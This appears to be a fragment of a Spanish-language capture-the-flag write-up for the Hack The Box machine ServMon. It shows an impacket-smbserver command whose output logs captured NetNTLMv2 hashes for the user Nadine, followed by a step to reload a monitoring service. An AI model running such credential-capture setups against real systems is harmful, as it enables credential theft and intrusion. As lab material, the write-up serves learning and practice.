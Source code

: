 
```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation        
                                                                
[*] Config file parsed                                          
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0                                                           [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0                                                           [*] Config file parsed                                                                                                           [*] Config file parsed                                                                                                           [*] Config file parsed                                          
[*] Incoming connection (10.10.10.184,50180)
[*] AUTHENTICATE_MESSAGE (SERVMON\Nadine,SERVMON)
[*] User SERVMON\Nadine authenticated successfully              
[*] Nadine::SERVMON:aaaaaaaaaaaaaaaa:30aec89c753a12e5d36db95e3b3de36c:010100000000000000ec4c74960ad8014d9f3943568f061d00000000010
010007100730061004a006d00520049004800030010007100730061004a006d0052004900480002001000510043004f0064005700740065004d00040010005100
43004f0064005700740065004d000700080000ec4c74960ad801060004000200000008003000300000000000000000000000002000002ebc1373f115123d9554b
6b1f9118ac29ed1499e8690c0db0419656f943f50730a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030
002e00310034002e00320037000000000000000000  
[*] Connecting Share(1:IPC$)                                    
[*] Connecting Share(2:smbFolder)   
[*] Disconnecting Share(1:IPC$)                                 
[*] Disconnecting Share(2:smbFolder)                            
[*] Closing down connection (10.10.10.184,50180)
[*] Remaining connections []                                    
[*] Incoming connection (10.10.10.184,50197)                    
[*] AUTHENTICATE_MESSAGE (SERVMON\Nadine,SERVMON)
[*] User SERVMON\Nadine authenticated successfully
[*] Nadine::SERVMON:aaaaaaaaaaaaaaaa:de5c42e3a755709d52bd91fd227ed271:01010000000000008006bd8c960ad8017de9e43c87de19b600000000010
010007100730061004a006d00520049004800030010007100730061004a006d0052004900480002001000510043004f0064005700740065004d00040010005100
43004f0064005700740065004d00070008008006bd8c960ad801060004000200000008003000300000000000000000000000002000002ebc1373f115123d9554b
6b1f9118ac29ed1499e8690c0db0419656f943f50730a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030
002e00310034002e00320037000000000000000000
[*] Connecting Share(1:smbFolder)   
[*] AUTHENTICATE_MESSAGE (\,SERVMON)
```

- Ahora creamos hacemos click en **Control > Reload** y esperamos a que se restablezca el servicio.
